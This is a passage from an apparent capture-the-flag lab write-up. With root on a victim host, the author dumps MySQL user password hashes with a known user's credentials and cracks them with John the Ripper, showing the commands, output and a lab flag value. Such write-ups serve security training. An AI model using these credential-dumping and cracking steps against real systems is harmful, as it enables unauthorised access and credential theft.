 +-------+----------------------------------+
| name  | value                            |
+-------+----------------------------------+
| FLAG9 | 1f63300548823105d976aeb86a2ccdfe |
+-------+----------------------------------+
root@victim-1:~#
{% endhighlight %}

The CTF page told me that FLAG11 is root's database password, so I tried to get the password hashes for all MySQL users:

{% highlight bash %}
root@victim-1:~# mysql -u michael -p5up3r_53cur3_p4ssw0rd -e 'SELECT authentication_string FROM mysql.user;'
< -e 'SELECT authentication_string FROM mysql.user;'
mysql: [Warning] Using a password on the command line interface can be insecure.
+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
|                                           |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *6B5EDDE567F4F29018862811195DBD14B8ADDD2A |
| *38754316CC02805979721015786F962394CF5463 |
+-------------------------------------------+
root@victim-1:~#
{% endhighlight %}

There were 2 passwords: one was michael's and one was root's. Since I already knew michael's password, I put the two hashes into john and hoped that I will see another cracked password:

{% highlight bash %}
root@attackdefense:~# echo *6B5EDDE567F4F29018862811195DBD14B8ADDD2A > tocrack
root@attackdefense:~# echo *38754316CC02805979721015786F962394CF5463 >> tocrack
root@attackdefense:~# john tocrack
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 512/512 AVX512BW 16x])
Warning: no OpenMP support for this hash type, consider --fork=48
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
1234567890       (?)
Warning: Only 14 candidates left, minimum 16 needed for performance.
Proceeding with incremental:ASCII
1g 0:00:00:03  3/3 0.3003g/s 19834Kp/s 19834Kc/s 19834KC/s 265vb6..265vgs
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
root@attackdefense:~# john --show tocrack
?:1234567890

1 password hash cracked, 1 left
root@attackdefense:~#
{% endhighlight %}
